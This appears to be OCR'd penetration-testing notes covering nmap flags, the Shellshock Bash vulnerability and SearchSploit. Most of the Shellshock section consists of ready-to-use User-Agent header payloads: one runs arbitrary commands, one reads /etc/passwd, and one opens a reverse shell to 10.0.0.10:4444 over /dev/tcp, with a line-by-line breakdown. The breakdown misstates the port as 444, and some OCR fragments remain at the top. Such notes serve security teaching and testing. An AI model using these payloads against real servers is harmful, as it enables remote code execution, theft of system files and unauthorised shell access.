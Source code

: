 -sV Banner Grab
    

-p Specify port(s)
  


        


ShellShock

Bash does not sanitize headers before loading them as environment variables. This means it loads whatever value is sent in the header. For example, the request below results in HTTP_USER_AGENT being set to () { :;};. This is cryptic, but in vulnerable versions of Bash, this creates a function that does nothing.

GET /index.html HTTP/1.1
Host: example.com
User-Agent: () { :;};
Connection: keep-alive
Therefore, if you update the request above to the below, the server will run echo "haxxed".

  GET /index.html HTTP/1.1
  Host: example.com
  User-Agent: () { :;}; echo "haxxed"
  Connection: keep-alive
This allows you to execute arbitrary code on the server, including commands that open TCP connections back to your machine.

  GET /index.html HTTP/1.1
  Host: example.com
  User-Agent: () { :;}; /bin/bash -c "cat /etc/passwd"
  Connection: keep-alive

ShellShock Payload to Open a Shell Breakdown

# Here is a Shellshock Payload Example
User-Agent: () { :;};echo -e "\r\n$(/bin/bash -i >& /dev/tcp/10.0.0.10/4444 0>&1)"`.

User-Agent: () { :;}; exploits Shellshock by creating a function. The code after gets executed by the shell.
echo -e "\r\n$(/bin/bash -i >& /dev/tcp/10.0.0.10/4444 0>&1)":
/bin/bash -i >& /dev/tcp/10.0.0.10/444 means "Run a new Bash shell in interactive mode. Send std error and standard output to 10.0.0.10:4444 through a TCP connection.
0>&1 means "Read standard input (0) to this new shell through the TCP connection."



SearchSploit

SearchSploit allows you to search all of the exploits that you have in Kali Linux and even view their source code.


Search for exploits

# Search for apache exploits and view the first 10 findings.
searchsploit apache | head
